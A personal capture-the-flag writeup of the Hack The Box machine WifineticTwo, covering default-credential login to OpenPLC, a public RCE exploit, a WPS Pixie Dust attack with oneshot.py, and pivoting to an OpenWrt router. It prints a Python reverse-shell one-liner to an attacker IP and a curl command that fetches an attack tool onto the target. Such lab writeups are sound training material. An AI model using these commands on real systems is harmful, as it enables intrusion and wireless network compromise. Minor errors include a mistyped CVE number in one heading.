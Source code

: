 ```yaml
---
layout: default
title : brenda - headless HTB Writeup
---
```



![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(180).png)

`WifineticTwo` is a medium machine in HTB.

### Recon
### Nmap scan

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20().png)

Added target ip to /etc/hosts using these commands:

`echo "10.10.11.7 wifinetictwo.htb" | sudo tee -a /etc/hosts`

I then opened the website `wifinetictwo.hb:8080/`. And got this!

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(151).png)

I searched online for the default credentials for OpenPLC and used them to log in.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(162).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(154).png)

The OpenPLC webserver runs PLC programs from the OpenPLC editor and allows configuration of runtime parameters. Currently, the dashboard shows the loaded file is blank_program.st and the server is stopped.

### CVE-2021-31360

If you search for OpenPLC vulnerabilities, you'll find [CVE-2021-31630](https://www.cvedetails.com/cve/CVE-2021-31630) and this proof of concept: [exploit-db.com/exploits/49803](https://www.exploit-db.com/exploits/49803).

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(152).png)


### User Flag

The POC enables RCE against the host using user credentials. Before running it, update the compile_program file name in the POC to blank_program.st, matching the currently loaded file on the host OpenPLC.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(155).png)

Start a listener and execute the exploit.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(156).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(157).png)

And that's how I obtained the user flag!

### Privilege Escalation
### Root Flag

With root access on this machine, we're unable to access the root.txt flag, indicating the necessity to pivot to another system. To facilitate this, we'll tweak configurations here. 
Given the machine's name, it likely relates to wireless network settings. 
Let's enumerate network interfaces.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(159).png)

Inspect the configuration of the wireless network interface wlan0.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(160).png)

Initiate a scan for available WiFi networks.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(161).png)

We've spotted a WiFi network named `plcrouter` nearby, featuring enabled WPS mode with a BSSID of `02:00:00:00:01:00`.

Since WPS is active, we'll attempt a OneShot attack using a Python script available [here](https://github.com/kimocoder/OneShot). This attack, detailed in the provided tutorials: [here](https://en.kali.tools/?p=1002) and more [here](https://miloserdov.org/?p=3393), specifically targets Pixie Dust vulnerabilities.

First, clone the oneshot.py file to your machine. Then, start a server on your machine using the command

`python3 -m http.server 8080`

in the directory containing the oneshot.py file. Next, on the target machine, use the command 

`curl 10.10.14.30/oneshot.py > oneshot.py`

to download the file from your machine to the target machine.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(165).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(166).png)


Utilize the oneshot.py script to initiate a Pixie Dust attack, following the tutorials outlined in the provided links.
Run the command:

`python3 ./oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(167).png)

The script retrieves the WPA-PSK key. Connect to the WiFi from the command line as instructed in the provided links.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(168).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(172).png)

Even though we've successfully associated with the WiFi AP, we haven't received an IP address from DHCP. Assign yourself an IP address within a typical private class C network, using a subnet mask of 255.255.255.0.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(171).png)

Search for instructions on connecting to WiFi using systemd and wpa_supplicant, and also obtaining IP address of the device in the WLAN network “plcrouter” using the provided link: [Connecting to WiFi network using systemd and wpa_supplicant](https://wiki.somlabs.com/index.php/Connecting_to_WiFi_network_using_systemd_and_wpa-supplicant).

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(175).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(176).png)

I then tried establishishing an SSH connection to the device with the IP address 192.168.1.1. The SSH connection to 192.168.1.1 as root fails due to host key verification. Then, a Python command is used to connect to 10.10.14.30:4444 and spawn a bash shell, redirecting input/output to the socket:

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.30",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(177).png)

A listener set up on port 4444, a reverse shell connects to it, and the user logs into an OpenWrt system via SSH.

`ssh root@192.168.1.1`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(178).png)

And there it was, sitting pretty: my root flag! 🎉

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(179).png)






























































